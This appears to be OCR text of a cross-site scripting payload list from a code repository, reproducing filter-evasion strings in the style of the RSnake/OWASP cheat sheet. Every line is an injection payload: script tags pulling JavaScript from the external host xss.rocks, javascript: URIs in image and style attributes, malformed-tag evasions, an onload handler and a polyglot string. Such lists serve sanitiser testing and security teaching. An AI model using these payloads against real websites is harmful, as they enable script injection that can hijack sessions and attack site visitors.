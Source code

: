 <title>

<div title="<title>"></div>

<span title="<title>"></span>

<div><title></title></div>

<span><title></title></span>

<b><textarea></textarea></b>

<script/src="#">

<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>

<IMG SRC="javascript:alert('XSS');">

<IMG SRC=javascript:alert('XSS')>

<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>

<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>

<SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>

<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>

<<SCRIPT>alert("XSS");//\<</SCRIPT>

<SCRIPT SRC=http://xss.rocks/xss.js?< B >

<SCRIPT SRC=//xss.rocks/.j>

</TITLE><SCRIPT>alert("XSS");</SCRIPT>

<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>

javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>

<STYLE>@import'http://xss.rocks/xss.css';</STYLE>
